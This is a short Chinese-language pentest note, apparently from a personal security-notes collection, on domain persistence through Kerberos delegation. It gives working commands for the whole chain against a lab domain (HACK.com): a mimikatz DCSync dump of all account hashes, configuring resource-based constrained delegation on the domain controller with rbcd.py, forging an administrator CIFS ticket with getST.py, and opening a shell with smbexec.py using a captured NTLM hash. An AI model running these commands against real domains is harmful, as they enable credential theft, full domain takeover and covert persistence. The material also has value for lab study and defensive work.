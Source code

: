 # 域内委派维权

为某个服务账户配置 krbtgt 用户的非约束性委派或基于资源的约束性委派。这里我的 krbtgt 的基于资源约束性委派我利用不了，所以使用的是域控的机器账户 dc01$ 进行维权。

抓取所有 hash。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:HACK.com /user:HACK\administrator /csv" "exit"

这里很多账号都是如下 hash，是因为他们的密码都是一样的。
9099d68602a60f007c227c4fa95fada6
9099d68602a60f007c227c4fa95fada6
```

![image-20250217162302056](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217162302056.png)

给机器账户 dc01$ 配置 machine$ 的基于资源的约束性委派

```
python ./rbcd.py -f comp1 -t dc01 -dc-ip 192.168.72.21 HACKER\\administrator -hashes aad3b435b51404eeaad3b435b51404ee:9099d68602a60f007c227c4fa95fada6
```

![image-20250217161552736](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217161552736.png)

以 administrator 请求 cifs/dc01.HACK.com 票据

```
# 以 administrator 请求 cifs/dc01.HACK.com 票据
python3 getST.py -dc-ip 192.168.72.21 HACK.com/machine$ -hashes aad3b435b51404eeaad3b435b51404ee:9099d68602a60f007c227c4fa95fada6 -spn cifs/dc01.HACK.com -impersonate administrator

export KRB5CCNAME=administrator@cifs_dc01.HACK.com@HACK.COM.ccache

python3 smbexec.py -no-pass -k dc01.HACK.com
```

![image-20250217163058165](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217163058165.png)